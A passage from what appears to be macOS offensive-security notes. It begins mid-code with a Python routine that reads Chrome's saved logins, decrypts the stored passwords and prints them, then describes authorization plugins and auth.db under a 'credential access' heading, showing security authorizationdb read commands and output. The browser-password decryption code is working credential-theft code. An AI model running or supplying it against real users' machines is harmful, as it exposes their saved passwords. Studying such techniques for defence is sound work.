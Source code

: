 ```python
    sql = 'select username_value, password_value, origin_url from logins'
    decryptedList = []
    with database:
        for user, encryptedPass, url in database.execute(sql):
            if user == "" or (encryptedPass[:3] != b'v10'): #user will be empty if they have selected "never" store password
                continue
            else:
                print("Working on url: {}".format(url))
                urlUserPassDecrypted = (url, user, chrome_decrypt(encryptedPass, key=key))
                decryptedList.append(urlUserPassDecrypted)
    print(json.dumps(decryptedList, sort_keys=True, indent=4))

if __name__ == "__main__":
    cookie_path = "Cookies3"  # Update this to the correct path
    
    print(f"Diagnosing database: {cookie_path}")
    diagnose_database(cookie_path)
```

## credential access via authorization plugins

authorization plugins (located in `/Library/Security/SecurityAgentPlugins`) extend the authentication system in macOS by allowing custom authentication methods to be integrated into the standard login process. `securityd` works with these plugins to handle authentication requests, by communicating with `SecurityAgent`, which loads + uses these plugins.

the plugins can implement custom authentication methods (biometric, 3rd-party IdPs) and so must be carefully designed and implemented. 

### `auth.db`

the authorization database (located at `/var/db/auth.db`) controls all the rules, policies, and plugins that are used when requests are processed via `securityd`. you can dump the information in this database by providing a "right-name" (check out the full list [here](https://www.dssw.co.uk/reference/authorization-rights/)): `security authorizationdb read <right-name>`

```bash
$ security authorizationdb read allow
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>class</key>
	<string>allow</string>
	<key>comment</key>
	<string>Allow anyone.</string>
	<key>created</key>
	<real>719346785.95490503</real>
	<key>modified</key>
	<real>719346785.95490503</real>
	<key>version</key>
	<integer>0</integer>
</dict>
</plist>
YES (0)

$ security authorizationdb read authenticate-session-owner-or-admin
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
```